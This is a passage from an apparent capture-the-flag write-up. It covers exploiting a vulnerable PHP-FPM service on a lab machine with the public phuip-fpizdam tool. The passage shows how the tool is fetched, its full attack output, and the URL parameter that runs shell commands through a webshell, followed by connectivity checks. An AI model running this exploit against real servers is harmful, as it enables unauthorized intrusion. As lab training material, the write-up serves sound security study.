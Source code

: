     var
    : cannot open shared object file: No such file or directory in Unknown on line 0
    [05-Aug-2021 00:44:14 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www.md/index.php on line 2
    [05-Aug-2021 00:44:36 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www.md/index.php on line 2
    [05-Aug-2021 00:44:47 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www.md/index.php on line 2

    Warning: Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www.md/index.php on line 2
    batch mode: /usr/bin/ersatool create|print|revoke CN



This webshell was very unstable. Sometimes I had to refresh the page
five or six times to see a result. I also tried a [version of the
exploit](https://github.com/neex/phuip-fpizdam) written in Go that gave
better information about what was going on. I got the binary with
`go get github.com/neex/phuip-fpizdam` , and then ran it:



    oxdf@parrot$ ~/go/bin/phuip-fpizdam http://127.0.0.1:9001/index.php
    2021/08/05 08:01:05 Base status code is 200
    2021/08/05 08:01:07 Status code 502 for qsl=1765, adding as a candidate
    2021/08/05 08:01:07 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
    2021/08/05 08:01:09 Attack params found: --qsl 1755 --pisos 38 --skip-detect
    2021/08/05 08:01:09 Trying to set "session.auto_start=0"...
    2021/08/05 08:01:10 Detect() returned attack params: --qsl 1755 --pisos 38 --skip-detect <-- REMEMBER THIS
    2021/08/05 08:01:10 Performing attack using php.ini settings...
    2021/08/05 08:01:11 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
    2021/08/05 08:01:11 Trying to cleanup /tmp/a...
    2021/08/05 08:01:11 Done!



Typically I like to move to `curl` once I get a webshell working, but
here I'll use Firefox as it allows me to just Ctrl-Shift-R quickly to
run until I see results.

![](/img/image-20210805080950176.png)

#### Connectivity

I tried to get pki to ping both my tun0 address (10.10.14.19) and and my
tun9 address (172.30.0.9). Neither reached my host. It seems that pki
can't connect back.

![](/img/image-20210805081023088.png)

![](/img/image-20210805081052255.png)

I can ping web:
